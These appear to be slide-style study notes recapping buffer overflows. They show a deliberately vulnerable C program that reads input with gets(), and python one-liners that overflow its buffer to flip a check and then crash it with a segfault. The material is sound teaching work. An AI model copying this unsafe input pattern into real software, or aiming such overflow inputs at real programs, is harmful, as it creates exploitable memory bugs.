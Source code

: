 # Buffer Overflow recap

---

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
	char local_24[32];
	int local_4 = 0xdeadbeef;
	printf("Enter your name: ");
	gets(local_24);
	printf("Welcome %s!\n", local_24);
	if(local_4 != 0xdeadbeef) {
		printf("You win!\n");
	}
	return 0;
}
```

---

![[Pasted image 20240128112133.png]]

---

![[Pasted image 20240128112304.png]]

---

![[Pasted image 20240128112451.png]]

---

![[Buffer Overflow recap 2024-01-28 11.25.31.excalidraw]]

---

```sh
python3 -c "print('A' * 43)" | ./main
```

```
Enter your name: 
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
```

---

```sh
python3 -c "print('A' * 44)" | ./main
```

```
Enter your name:
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
You win!
```

---

```sh
python3 -c "print('A' * 56)" | ./main
```

```
Enter your name: 
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
You win!
fish: Process 50623, './main' from job 1,
'python3 -c "print('A' * 56)" | …'
terminated by signal SIGSEGV (Address boundary error)
```
